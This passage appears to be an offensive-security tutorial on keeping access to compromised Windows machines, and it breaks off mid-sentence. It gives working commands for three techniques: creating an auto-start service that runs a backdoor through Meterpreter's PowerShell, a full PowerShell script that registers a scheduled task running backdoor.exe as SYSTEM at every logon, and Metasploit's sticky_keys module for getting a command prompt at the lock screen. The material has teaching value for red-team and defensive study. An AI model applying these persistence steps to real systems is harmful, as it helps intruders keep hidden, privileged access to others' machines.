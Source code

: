 # Persistence by creating a service

There is the possibility to create a service leveraging Powershell which will execute our backdoor.
Load Powershell into the meterpreter instance by typing: `load powershell`
To drop into a Powershell shell type: `powershell_shell`
Create the service using the New-Service cmdlet:

```
New-Service -Name "<SERVICE_NAME>" -BinaryPathName "<PATH_TO_BINARY>" -Description "<SERVICE_DESCRIPTION>" -StartupType "Boot"`
```

The service is stopped, but by checking the services you can notice that the service will start automatically

# Scheduled tasks

Scheduled tasks are used to schedule the launch of specific programs or scripts at a pre-defined time or when it meets a condition (Ex: a user logs in).
Powershell can be used to create a scheduled task and assure persistence but for that, we'll have to define multiple cmdlets. These are:

1. New-ScheduledTaskAction - Is used to define the action that is going to be made.
2. New-ScheduledTaskTrigger - Defining the trigger (daily/weekly/monthly, etc). The trigger can be considered a condition that when met the scheduled task will launch the action.
3. New-ScheduledTaskPrincipal - Is the user that the task will be run as.
4. New-ScheduledTaskSettingsSet - This will set our above-mentioned settings.
5. Register-ScheduledTask - Will create the task.
6. Knowing this let's create the task using Powershell. 

```
$A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Administrator\Desktop\backdoor.exe"
$B = New-ScheduledTaskTrigger -AtLogOn
$C = New-ScheduledTaskPrincipal -UserId "NT AUTHORITY\SYSTEM" -RunLevel Highest
$d = New-ScheduledTaskSettingsSet
$E = New-ScheduledTask -Action $A -Trigger $B -Principal $c -Settings $D
Register-ScheduledTask Backdoor -InputObject $E
```

Checking Task Scheduler you can see there is a task created and will run every time a users logs in.

# Backdooring RDP

An example would be using Metasploit to backdoor OSK (On-screen keyboard).

Metasploit sticky_keys module can be used: `search sticky`
Sign out/Lock the account and press Windows Key + U and choose On-screen keyboard. A CMD should be prompted.

The same results can be achieved by editing the registry using the command:
